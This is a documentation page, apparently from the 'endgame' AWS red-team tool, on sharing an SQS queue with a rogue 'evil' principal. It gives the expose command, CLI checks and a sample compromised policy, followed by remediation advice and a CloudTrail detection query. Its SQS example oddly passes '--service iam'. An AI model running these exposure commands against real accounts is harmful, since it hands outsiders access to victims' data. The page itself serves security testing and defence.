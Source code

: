 # SQS

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* To verify that the SQS queue has been shared with a rogue user, run the following from the victim account:

```bash
export QUEUE_URL=(`aws sqs get-queue-url --queue-name test-resource-exposure | jq -r '.QueueUrl'`)

aws sqs get-queue-attributes --queue-url $QUEUE_URL --attribute-names Policy
```

* Observe that the contents match the example shown below.

## Example

The policy below allows the Evil Principal's account ID (`999988887777` access to `sqs:*` to the victim resource (`arn:aws:sqs:us-east-1:111122223333:test-resource-exposure`), indicating a successful compromise.


```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2008-10-17\",\"Id\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure/SQSDefaultPolicy\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"}]}"
    }
}

```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SQS Queues are only shared with trusted accounts, and that the trusted accounts truly need access to the SQS Queue.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  SQS Queues. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SQS Queues**: Tightly control access to the following IAM actions:
  - [sqs:AddPermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_AddPermission.html): _Description_
  - [sqs:RemovePermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_RemovePermission.html): _Description_
  - [sqs:GetQueueAttributes](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueAttributes.html): _Gets attributes for the specified queue. This includes retrieving the list of principals who are authorized to access the queue._
  - [sqs:GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html): _Returns the URL of an existing queue._
  - [sqs:ListQueues](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_ListQueues.html): _Returns a list of your queues._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='sqs.amazonaws.com' AND (eventName='AddPermission' or eventName='RemovePermission')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws sqs add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sqs/add-permission.html)
* [aws sqs get-queue-attributes](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-attributes.html)
